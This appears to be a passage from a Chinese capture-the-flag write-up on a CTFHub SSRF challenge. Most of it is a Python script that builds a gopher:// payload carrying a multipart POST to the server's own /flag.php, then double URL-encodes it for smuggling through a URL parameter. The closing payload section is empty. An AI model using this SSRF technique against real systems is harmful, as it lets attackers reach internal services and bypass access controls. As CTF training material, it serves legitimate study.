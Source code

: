 
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f87c632797dc4415bf8f976fc6c5c6bb.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ab0d56158e3b44d59fc57546ed42b7a4.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

```
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 281
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-0b92a02269b5fb44.sandbox.ctfhub.com:10800
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryP1tAFG8gw3Q8NTg6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-0b92a02269b5fb44.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Connection: close

------WebKitFormBoundaryP1tAFG8gw3Q8NTg6
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

111
------WebKitFormBoundaryP1tAFG8gw3Q8NTg6
Content-Disposition: form-data; name="submit"

鎻愪氦
------WebKitFormBoundaryP1tAFG8gw3Q8NTg6--
"""  

#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码

```

> 
Payload


```
```